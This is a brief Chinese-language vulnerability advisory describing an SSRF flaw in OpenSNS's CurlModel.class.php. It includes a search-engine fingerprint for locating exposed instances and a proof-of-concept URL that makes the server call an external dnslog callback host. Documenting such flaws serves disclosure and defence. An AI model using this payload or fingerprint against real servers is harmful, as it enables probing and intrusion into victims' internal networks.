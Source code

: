 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154436896](images/202205181544965.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![image-20220518154502605](images/202205181545686.png)

构造POC

```
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![image-20220518154516760](images/202205181545840.png)